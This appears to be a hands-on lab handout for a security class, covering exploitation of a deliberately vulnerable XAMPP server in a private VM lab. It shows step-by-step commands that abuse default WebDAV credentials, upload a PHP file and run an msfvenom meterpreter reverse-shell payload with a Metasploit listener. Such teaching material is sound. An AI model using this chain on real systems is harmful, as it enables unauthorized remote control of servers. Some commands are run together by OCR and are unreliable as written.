 
## Proj 12: Exploiting PHP Vulnerabilities
What you need
	• A Linux machine, real or virtual. I used a 32-bit Kali 2 virtual machine.
	• The Windows 2008 Server target VM you prepared previously, with many vulnerable programs running.
#### Purpose
To practice exploiting several vulnerabilities on the Target machine, including PHP vulnerabilities.
#### Start the VMs
Start both your Kali 2 VM and your Winows 2008 Server Target VM. Log in to both of them. Find the IP address of your target machine and make a note of it.
#### Test Networking
On the Kali machine, in a Terminal window, execute this command, replacing the IP address with the IP address of your Windows 2008 Server target.
			ping 192.168.119.130
You should see replies. If you don't, you need to troubleshoot your networking. If there's a firewall turned on on the target, turn it off. Press Ctrl+C to stop the pings.

### Task 1: Exploiting Default XAMPP Credentials
#### Scanning the Target with Nmap
On Kali, in a Terminal window, execute this command, replacing the IP address with the IP address of your Windows 2008 Server target. (The -A switch turns on all Advanced options, including banner-grabbing.)

		 		nmap -A 192.168.119.130

This took about 4 minutes when I did it, and showed a lot of these error messages: "WARNING: RST from 192.168.119.130 port 21 -- is this port really open?". Just ignore that and let the scan finish. When the scan is done, scroll back to see the results for port 80.
As shown below, the server supports DAV, and is running XAMPP version 1.7.2.

XAMPP is a LAMP server (Linux, Apache, MySQL, and PHP), containing many components bundled together for convenience.

As explained here, XAMPP turns on WebDAV by default, with default credentials of wampp and xampp. Often, a server administrator is not using WebDAV and is unaware that it's active, so the default credentials stay unchanged.
#### Uploading a File with Cadaver
Cadaver is a WebDAV utility, like a command-line FTP client. Kali includes it by default.
- On the Kali machine, in a Terminal window, execute this command, replacing the IP address with the IP address of your Windows 2008 Server target.

		cadaver http://192.168.119.130/webdav/
Log in with the credentials wampp and xampp, as shown below.

- At the "dav:/webdav/>" prompt, execute this command:

		help
You see a list of the available commands, including "put", which will upload a file to the server. On Kali, open a new Terminal window and execute this command:

	echo test > /tmp/test.htm
This creates a file named "test.htm". In your original Terminal window, at the "dav:/webdav/>" prompt, execute this command:

	put /tmp/test.htm
The file uploads, as shown below.

To see your file, on Kali, from the menu bar, click Applications, Favorites, IceWeasel, and enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.
	http://192.168.119.130/webdav/test.htm
The file appears, as shown below.

Now you can upload files to the server, and deface a Web page, but it would be even better to get a remote shell on the server.
## Code Execution with a PHP File
On your Kali box, in an unused Terminal window, execute this command:
	nano /tmp/phpinfo.php
In nano, enter this code, as shown below.
```
	<?php
phpinfo();
?>
```
Press Ctrl+X, Y, Enter to save the file.
This is a simple PHP file that displays information about the PHP software running on the server. If that file runs, it means that we can upload files and execute them on the server--"Remote Code Execution".
In your original Terminal window, at the "dav:/webdav/>" prompt, execute this command:
	put /tmp/phpinfo.php
The file uploads, as shown below.

In IceWeasel, enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.
```
http://192.168.119.130/webdav/phpinfo.php
```
The file appears, as shown below.

As you can see, we don't see the static text in the PHP file--the file's contents are executed and we see the output of the PHP function.
This means we can upload and execute PHP commands on the server.
All we need is a PHP file that does something fun.

#### Creating a PHP Attack File with Msfvenom
On your Kali box, in an unused Terminal window, execute this command:

		msfvenom -l | grep php
There are several PHP payloads available, including php/meterpreter_reverse_tcp, as shown below.

To see the options available for that exploit, execute this command:

		msfvenom -p php/meterpreter_reverse_tcp --payload-options
Scroll back to see the basic options, as shown below. The only options we really need are LHOST and LPORT, both referring to our Kali attacker.

On your Kali machine, execute this command. Find your IP address and make a note of it.

	ifconfig
On your Kali machine, execute these commands, replacing the IP address with the address of your Kali machine:

		msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.119.131 LPORT=443 -f raw > /tmp/meterpreter.php head /tmp/meterpreter.php
As shown below, the payload is long and filled with dense PHP code. Thanks to Metasploit, we don't need to understand all that code--we can just use it :).

#### Starting a Metasploit Listener
On your Kali machine, execute these commands, replacing the IP address with the address of your Kali machine:
```
	msfconsole use multi/handler
	set payload php/meterpreter_reverse_tcp
	set LHOST 192.168.119.131
	set LPORT 443 exploit
	```
Metasploit is now waiting for connections, as shown below.

#### Uploading and Executing the Attack File

In your original Terminal window, at the "dav:/webdav/>" prompt, execute this command:
	put /tmp/meterpreter.php
The file uploads, as shown below.

In IceWeasel, enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.

		http://192.168.119.130/webdav/meterpreter.php
The browser hangs, but the Matasploit listener shows a "Meterpreter session opened" message, as shown below. We now own the server!
